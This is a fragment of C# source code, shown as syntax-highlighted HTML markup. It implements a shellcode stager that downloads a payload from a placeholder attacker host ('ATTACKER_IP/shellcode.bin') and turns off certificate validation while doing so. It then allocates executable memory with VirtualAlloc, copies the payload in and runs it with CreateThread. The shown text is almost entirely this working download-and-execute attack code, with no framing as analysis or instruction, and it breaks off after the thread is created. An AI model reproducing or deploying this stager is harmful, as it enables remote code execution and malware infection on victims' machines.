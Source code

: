   <span class="token keyword">public</span> <span class="token keyword">static</span> <span class="token return-type class-name"><span class="token keyword">void</span></span> <span class="token function">Main</span><span class="token punctuation">(</span><span class="token punctuation">)</span>
  <span class="token punctuation">{</span>
    <span class="token class-name"><span class="token keyword">string</span></span> url <span class="token operator">=</span> <span class="token string">"https://ATTACKER_IP/shellcode.bin"</span><span class="token punctuation">;</span>
    <span class="token function">Stager</span><span class="token punctuation">(</span>url<span class="token punctuation">)</span><span class="token punctuation">;</span>
  <span class="token punctuation">}</span>

  <span class="token keyword">public</span> <span class="token keyword">static</span> <span class="token return-type class-name"><span class="token keyword">void</span></span> <span class="token function">Stager</span><span class="token punctuation">(</span><span class="token class-name"><span class="token keyword">string</span></span> url<span class="token punctuation">)</span>
  <span class="token punctuation">{</span>

    <span class="token class-name">WebClient</span> wc <span class="token operator">=</span> <span class="token keyword">new</span> <span class="token constructor-invocation class-name">WebClient</span><span class="token punctuation">(</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
    ServicePointManager<span class="token punctuation">.</span>ServerCertificateValidationCallback <span class="token operator">=</span> <span class="token keyword">delegate</span> <span class="token punctuation">{</span> <span class="token keyword">return</span> <span class="token boolean">true</span><span class="token punctuation">;</span> <span class="token punctuation">}</span><span class="token punctuation">;</span>
    ServicePointManager<span class="token punctuation">.</span>SecurityProtocol <span class="token operator">=</span> SecurityProtocolType<span class="token punctuation">.</span>Tls12<span class="token punctuation">;</span>

    <span class="token class-name"><span class="token keyword">byte</span><span class="token punctuation">[</span><span class="token punctuation">]</span></span> shellcode <span class="token operator">=</span> wc<span class="token punctuation">.</span><span class="token function">DownloadData</span><span class="token punctuation">(</span>url<span class="token punctuation">)</span><span class="token punctuation">;</span>

    <span class="token class-name">UInt32</span> codeAddr <span class="token operator">=</span> <span class="token function">VirtualAlloc</span><span class="token punctuation">(</span><span class="token number">0</span><span class="token punctuation">,</span> <span class="token punctuation">(</span>UInt32<span class="token punctuation">)</span>shellcode<span class="token punctuation">.</span>Length<span class="token punctuation">,</span> MEM_COMMIT<span class="token punctuation">,</span> PAGE_EXECUTE_READWRITE<span class="token punctuation">)</span><span class="token punctuation">;</span>
    Marshal<span class="token punctuation">.</span><span class="token function">Copy</span><span class="token punctuation">(</span>shellcode<span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> <span class="token punctuation">(</span>IntPtr<span class="token punctuation">)</span><span class="token punctuation">(</span>codeAddr<span class="token punctuation">)</span><span class="token punctuation">,</span> shellcode<span class="token punctuation">.</span>Length<span class="token punctuation">)</span><span class="token punctuation">;</span>

    <span class="token class-name">IntPtr</span> threadHandle <span class="token operator">=</span> IntPtr<span class="token punctuation">.</span>Zero<span class="token punctuation">;</span>
    <span class="token class-name">UInt32</span> threadId <span class="token operator">=</span> <span class="token number">0</span><span class="token punctuation">;</span>
    <span class="token class-name">IntPtr</span> parameter <span class="token operator">=</span> IntPtr<span class="token punctuation">.</span>Zero<span class="token punctuation">;</span>
    threadHandle <span class="token operator">=</span> <span class="token function">CreateThread</span><span class="token punctuation">(</span><span class="token number">0</span><span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> codeAddr<span class="token punctuation">,</span> parameter<span class="token punctuation">,</span> <span class="token number">0</span><span class="token punctuation">,</span> <span class="token keyword">ref</span> threadId<span class="token punctuation">)</span><span class="token punctuation">;</span>
